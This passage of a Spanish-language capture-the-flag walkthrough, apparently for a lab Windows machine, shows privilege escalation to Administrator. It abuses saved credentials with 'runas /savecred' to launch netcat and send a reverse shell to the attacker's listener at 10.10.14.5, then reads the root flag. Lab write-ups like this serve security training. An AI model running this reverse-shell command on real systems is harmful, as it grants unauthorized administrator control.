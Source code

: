 En este punto se podria buscar de bypasear la politica de seguridad o buscar otro binario en el sistema para el cual se pueda hacer lo mismo.
Buscando punto por punto, se vio un ejecutable "runas.exe" dentro del directorio "system32"
~~~bash
C:\Windows\System32>dir
<SNIP>
07/14/2009  01:41 AM            91,648 rtrfiltr.dll
06/19/2010  06:53 AM            52,224 rtutils.dll
07/14/2009  03:20 AM    <DIR>          ru-RU
07/14/2009  01:39 AM            20,480 runas.exe
07/14/2009  01:39 AM            45,568 rundll32.exe
<SNIP>
~~~
Entonces, probando si el usuario administrator si podria tener permisos de ejecucion de programas, se envia una reverse shell impersonando al usuario "administrator", esto se puede hacer con el comando /savecred.
~~~bash
C:\Windows\System32>.\runas.exe /savecred /user:ACCESS\Administrator "C:\temp\nc64.exe 10.10.14.5 4433 -e cmd.exe"
~~~
Antes de enviarlo se deberia abrir un escucha en mi maquina atacante.
Una vez enviado el comando, se puede ver que si funciono.
~~~bash
rlwrap -cAr nc -nvlp 4433
listening on [any] 4433 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.98] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
~~~
Teniendo acceso como el usuario administrator.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ya con acceso como usuario administrator, se puede leer la root flag.
~~~powershell
C:\Windows\system32>cd C:\users\administrator
cd C:\users\administrator

C:\Users\Administrator>cd desktop
cd desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

